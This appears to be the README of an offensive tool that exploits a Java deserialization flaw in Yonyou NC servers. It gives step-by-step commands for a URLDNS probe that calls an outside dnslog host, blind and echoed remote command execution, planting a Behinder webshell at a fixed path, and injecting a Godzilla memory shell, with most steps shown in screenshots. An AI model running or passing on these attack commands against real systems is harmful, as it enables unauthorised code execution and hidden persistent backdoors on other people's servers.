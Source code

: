 ## 使用说明

0. 前言

> 无回显的构造链直接使用的是 `CC6`执行命令，回显的构造链使用了`DefiningClassLoader`来绕过默认的黑名单，然后结合 `CC6`构造链进行任意代码执行。
>
> 搭配了接口检测功能和`URLDNS`构造链判断是否存在反序列化。

1. 接口检查功能：`java -jar nc6.5.jar http://127.0.0.1 Check`

![image-20220830130453464](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301305169.png)

2. `URLDNS`构造链探测：`java -jar nc6.5.jar http://127.0.0.1 urldns http://123.dnslog.cn`

![image-20220830130719543](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301308996.png)

![image-20220830130803567](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301308672.png)

![image-20220830130825740](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301308210.png)

3. 无回显命令执行：`java -jar yonyouNCTools.jar http://192.168.222.130 blind calc.exe`

![image-20220830131753990](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301344245.png)

![image-20220830131804456](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301344727.png)

![image-20220830131717673](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301344807.png)



4. 回显命令执行：`java -jar yonyouNCTools.jar http://192.168.222.130 Execute`，通过 `Header`头传递命令。

![image-20220830131939577](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301344557.png)

![image-20220830142505411](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301425388.png)

5. 落地 `webshell`：`java -jar yonyouNCTools.jar http://192.168.222.130 UploadShell "C:\Users\Administrator\Pictures\Camera Roll\1.jsp"`

> 此处如果使用 `java1.8`运行，固定落地一个天蝎的 `webshell`，路径为：`http://127.0.0.1/eozZEwBb.jsp`，如果使用的是 `java1.7`运行，会重新动态编译，可以落地自定义的 `webshell`，路径随机。

![image-20220830132251387](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301344968.png)

![image-20220830132618115](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301344709.png)

![image-20220830132628494](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301344610.png)

![image-20220830132824210](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301345567.png)

> 通过 `java1.7`落地自定义的 `webshell`，因为用到了动态编译，所有需要使用 `jre`下的 `java.exe`运行，否则动态编译失败。动态编译过程会提示使用了过时的 `API`，没有影响。

![image-20220830133136817](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301345461.png)

![image-20220830133235224](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301345855.png)

![image-20220830133344521](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301345605.png)

![image-20220830133403240](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301345458.png)

![image-20220830133536619](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301345471.png)



6. 注入内存马：`java -jar yonyouNCTools.jar http://192.168.222.130 MemoryShell`，注入的是一个 `valve-Godzilla`内存马。

![image-20220830133637610](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301345367.png)

![image-20220830133805235](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301345125.png)

![image-20220830133847158](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301346838.png)

![image-20220830134116523](https://raw.githubusercontent.com/Ghost2097221/picstorage/main/img202208301346986.png)

